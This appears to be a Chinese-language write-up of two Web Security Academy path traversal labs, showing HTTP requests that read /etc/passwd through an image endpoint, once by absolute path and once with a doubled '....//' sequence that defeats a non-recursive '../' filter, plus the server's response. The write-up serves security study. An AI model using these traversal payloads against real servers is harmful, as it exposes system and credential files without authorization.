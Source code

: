 直接给绝对路径读取到了。

```http
GET /image?filename=/etc/passwd HTTP/2
Host: 0a3d00a704959656870b472000a700e8.web-security-academy.net
Cookie: session=LEYsrWlzEuXb1g6J2N5zwBGhSmBwwok4
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a3d00a704959656870b472000a700e8.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
......
```

#### Lab: File path traversal, traversal sequences stripped non-recursively

题意：应用过滤删除用户输入的文件名中的特殊字符。

正常的跳跃无法读取文件内容。

```bash
../../../etc/passwd
```

看了答案和 [z3nsh3ll](https://www.youtube.com/watch?v=n0M-nOEB6a8) 的讲解才发现是剔除了 ../，因此尝试尝试双写绕过。

```bash
....//....//....//etc/passwd
```

最终变成。

```bash
../../../etc/passwd
```

成功解决。

```http
GET /image?filename=./....//....//....//....//etc/passwd HTTP/2
Host: 0aa70075038c7b9580342bf200ff0002.web-security-academy.net
Cookie: session=6AXaJ0hgRNKXET1q8LIdWP3S4ycWCR7W
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a12005003ec689a81e0f336000c003c.web-security-academy.net/product?productId=1
```